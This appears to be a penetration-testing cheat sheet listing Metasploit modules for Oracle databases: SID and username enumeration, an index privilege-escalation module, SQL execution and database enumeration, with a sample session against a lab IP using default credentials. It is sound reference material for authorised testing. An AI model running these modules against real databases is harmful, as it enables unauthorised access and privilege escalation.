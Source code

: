 #### sid enum:

```
auxiliary/scanner/oracle/sid_enum
```

#### username enumeration:

```
use auxiliary/scanner/oracle/oracle_login
```

#### index priv esc:

```
msf > use auxiliary/admin/oracle/oracle_index_privesc
msf auxiliary(oracle_index_privesc) > show actions
    ...actions...
msf auxiliary(oracle_index_privesc) > set ACTION < action-name >
msf auxiliary(oracle_index_privesc) > show options
    ...show and set options...
msf auxiliary(oracle_index_privesc) > run
```

#### execute sql queries:

```
use auxiliary/admin/oracle/oracle_sql
```

#### enumerate the database:

```
use auxiliary/admin/oracle/oraenum
msf auxiliary(oraenum) > info

Name: Oracle Database Enumeration
Module: auxiliary/admin/oracle/oraenum
License: Metasploit Framework License (BSD)
Rank: Normal

Provided by:
Carlos Perez <carlos_perez@darkoperator.com>

Basic options:
Name    Current Setting  Required  Description
----    ---------------  --------  -----------
DBPASS  TIGER            yes       The password to authenticate with.
DBUSER  SCOTT            yes       The username to authenticate with.
RHOST                    yes       The Oracle host.
RPORT   1521             yes       The TNS port.
SID     ORCL             yes       The sid to authenticate with.

Description:
This module provides a simple way to scan an Oracle database server
for configuration parameters that may be useful during a penetration
test. Valid database credentials must be provided for this module to
run.

msf auxiliary(oraenum) > set RHOST 192.168.56.163
RHOST => 192.168.56.163
msf auxiliary(oraenum) > set SID KNUTSEL
SID => KNUTSEL
msf auxiliary(oraenum) > set dbpass tiger
dbpass => tiger
msf auxiliary(oraenum) > run

```